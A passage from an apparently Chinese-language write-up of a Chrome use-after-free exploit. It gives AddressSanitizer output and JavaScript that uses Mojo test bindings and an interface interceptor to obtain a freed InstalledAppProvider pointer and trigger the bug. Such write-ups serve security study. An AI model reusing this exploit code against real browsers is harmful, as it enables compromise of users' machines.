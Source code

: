 ```
==8779==ERROR: AddressSanitizer: heap-use-after-free on address 0x620000067080 at pc 0x7f1aafa73589 bp 0x7ffed99af5d0 sp 0x7ffed99af5c8
READ of size 8 at 0x620000067080 thread T0 (chrome)
```

### <a class="reference-link" name="%E5%8F%96%E6%B6%88%E7%AB%9E%E4%BA%89"></a>取消竞争

为了进行漏洞利用，我们希望能更好地控制在什么时间触发UAF。如果我们使用本地代码编写漏洞利用程序，那么即使释放了子帧，我们也可以使得Mojo连接保持活动状态，因为这些帧是在同一进程中运行。但是，在理想情况下，我们希望保留JavaScript。<br>
很快，我们就找到了`MojoJSTest`绑定，该绑定为JavaScript提供了一些额外的Mojo功能。我们利用的相关功能是`MojoInterfaceInterceptor`，它能够拦截来自同一进程中其他框架的`Mojo.bindInterface`调用。我们可以使用它，在子帧被销毁之前将终端句柄传递给父帧。其代码如下：

```
var kPwnInterfaceName = "pwn";

// runs in the child frame
function sendPtr() {
  var pipe = Mojo.createMessagePipe();
  // bind the InstalledAppProvider with the child rfh
  Mojo.bindInterface(blink.mojom.InstalledAppProvider.name,
    pipe.handle1, "context", true);

  // pass the endpoint handle to the parent frame
  Mojo.bindInterface(kPwnInterfaceName, pipe.handle0, "process");
}

// runs in the parent frame
function getFreedPtr() {
  return new Promise(function (resolve, reject) {
    var frame = allocateRFH(window.location.href + "#child"); // designate the child by hash

    // intercept bindInterface calls for this process to accept the handle from the child
    let interceptor = new MojoInterfaceInterceptor(kPwnInterfaceName, "process");
    interceptor.oninterfacerequest = function(e) {
      interceptor.stop();

      // bind and return the remote
      var provider_ptr = new blink.mojom.InstalledAppProviderPtr(e.handle);
      freeRFH(frame);
      resolve(provider_ptr);
    }
    interceptor.start();
  });
}
```

因此，我们现在可以使用`getFreedPtr()`获取释放的`InstalledAppProviderPtr`的`RenderFrameHost`。然后，调用`filterInstalledApps`，随后将立即触发UAF。

### <a class="reference-link" name="%E6%9B%BF%E4%BB%A3RenderFrameHostImpl"></a>替代RenderFrameHostImpl
